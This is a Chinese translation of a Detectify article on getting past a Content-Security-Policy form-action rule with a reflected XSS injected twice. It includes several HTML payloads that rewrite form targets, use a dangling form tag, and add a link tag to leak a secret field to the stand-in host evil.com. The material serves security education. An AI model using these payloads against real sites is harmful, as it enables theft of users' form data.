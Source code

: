 # 利用反射型XSS二次注入绕过CSP form-action限制

翻译:[SecurityToolkit](http://weibo.com/u/5824380435)

0x01 简单介绍
=====

CSP(Content-Security-Policy)是为了缓解XSS而存在的一种策略, 开发者可以设置一些规则来限制页面可以加载的内容.那文本中所说的form-action又是干啥的呢?用他可以限制form标签"action"属性的指向页面, 这样可以防止攻击者通过XSS修改表单的"action"属性,偷取用户的一些隐私信息.

0x02 实例分析
=====

上面讲的太抽象了, 如果不想看的话可以直接跳过....具体一点, 现在使用的是chrome浏览器, 假设下面这个secret.html是可能被XSS攻击的

```
//XSS在这里, victim.com/secret.html?xss=xss
<form method="POST" id='subscribe' action='oo.html'>
  <input name='secret' value='xiao_mi_mi'/>         //小秘密

```

如果这个站点没有CSP, 攻击者可以直接通过XSS修改

```
<form method="POST" action='http://evil.com/wo_de_mi_mi.php'>   //我的秘密

```

当用户傻傻地进行"正常'操作时,小秘密已经悄然变成攻击者的秘密了.然后,有一个管理员试图用CSP防止这个问题, 他使用白名单策略限制外部JS的加载并且不允许内联脚本, 好像安全性高了一点.

攻击者想了下, 把页面改成下面这个样子

```
<div><form action='http://evil.com/wo_de_mi_mi.php'></div>
<form method='POST' id='subscribe' action='oo.html'>

```

在原本的form之前又加了一个form标签, 这个新的form标签没有闭合,并且直接碰到了老form标签, 这个时候会发生什么呢?

![Screen Shot 2016-04-10 at 19.25.02](http://drops.javaweb.org/uploads/images/31acf41d80c908456739569042717add77e55c35.jpg)

老form标签就这样消失了! 所以攻击者再次把用户的小秘密发送到了自己的服务器上, 而且这时本来应该是POST的secret因为老form标签的消失现在变成了GET发送, 请求变成了下面这样.

![Screen Shot 2016-04-10 at 19.25.02](http://drops.javaweb.org/uploads/images/c65741b88c40e3f46fd51d10ea419c5ebb58b6dc.jpg)

这下管理员郁闷了, 最后索性用CSP加上了form-action来白名单限定form标签的action指向, 那么这样是否还会出现问题呢?

一起来回顾一下, 现在有一个不能执行JS的反射型XSS和一个只能往白名单域名(当然没有攻击者域名...)指向的form标签.

原secret.html

```
// XSS位置, victim.com/secret.html?xss=xss
<form method="POST" id='subscribe' action='oo.html'>
  <input name='secret' value='xiao_mi_mi'/>

```

最后攻击者的改过的页面如下

```
<input value='ByPass CSP' type='submit' form='subscribe' formaction='' formmethod='GET' />
<input type='hidden' name='xss' form='subscribe' value="<link rel='subresource' href='http://evil.com/wo_de_mi_mi.php'>">
// XSS, victim.com/secret.html?xss=xss
<form method="POST" id='subscribe' action='oo.html'>
  <input type='hidden' name='secret' value='xiao_mi_mi'/>
</form>

```

这里有几处tricky的地方, 整个代码的步骤如下

1.  input标签的form/formmethod/formaction将老form POST到oo.html的secret变成GET发送到secret.html即当前页面.
    
2.  跳转后仍处于secret.html因此该页面的XSS还可以被二次利用注入恶意标签, 这里又利用第二个input标签增加GET请求的xss参数, 所以跳转之后的URL变为
    
    ```
    http://victim.com/secret.html?secret=xiao_mi_mi&xss=<link rel='subresource' href='http://evil.com/wo_de_mi_mi.php'>
    
    ```
3.  此时secret.html再次触发XSS, 被攻击者加入下面标签
    
    ```
    <link rel='subresource' href='http://evil.com/wo_de_mi_mi.php'>
    
    ```
4.  ![Screen Shot 2016-04-10 at 20.12.36](http://drops.javaweb.org/uploads/images/4f94dd59cdb679fb79b82d8a35e8406db5e87924.jpg)
    

正是最后这个link标签泄露了本该POST发送的secret, 攻击者通过利用一个反射型XSS将CSP的form-action绕过.

0x03 最后
=====

CSP能够从某种程度上限制XSS, 对网站的防护是很有益义的. 不过相比国外经常能够看到相关的讨论,国内CSP的推进和热度却是比较不尽人意的, 同时关于CSP也有很多有意思的安全点, 特此翻译出来以供大家学习和参考.

原文链接:[https://labs.detectify.com/2016/04/04/csp-bypassing-form-action-with-reflected-xss/](https://labs.detectify.com/2016/04/04/csp-bypassing-form-action-with-reflected-xss/)